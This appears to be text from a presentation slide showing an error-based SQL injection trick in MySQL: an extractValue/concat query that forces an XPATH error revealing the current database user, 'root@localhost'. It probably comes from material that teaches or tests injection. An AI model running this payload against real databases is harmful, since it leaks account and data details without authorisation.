

# Select extractValue( 1, concat( 0x3c, user() ) )
XPATH syntax error: '<root@localhost'